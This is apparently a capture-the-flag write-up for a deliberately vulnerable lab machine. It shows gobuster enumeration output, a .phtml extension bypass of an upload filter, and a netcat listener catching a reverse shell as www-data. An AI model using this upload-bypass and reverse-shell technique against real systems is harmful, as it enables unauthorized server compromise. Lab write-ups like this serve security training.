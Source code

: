 ```
└──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.173.218:3333
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.173.218:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/22 16:23:49 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 299]
/.htaccess            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.173.218:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.173.218:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.173.218:3333/images/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.173.218:3333/internal/]
/index.html           (Status: 200) [Size: 33014]                                        
/js                   (Status: 301) [Size: 318] [--> http://10.10.173.218:3333/js/]      
...                                                        
                                                                                         
===============================================================
2022/01/22 16:25:37 Finished
===============================================================

```
## Getting access

upon visiting the `internal` dir we get file upload 

But obviously `.php` is not allowed (that would be trivial)

so using burpsuite sniper we fuzz for allowed extensions and `.phtml` is our answer

upload it and prepare your listenner

visit `http://10.10.153.97:3333/internal/uploads/reverse-shell.phtml`

Get access on your listenner. Now you are in

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 35656
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:50:04 up 2 min,  0 users,  load average: 1.51, 1.23, 0.51
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

```
Meet `bill` and get the user flag
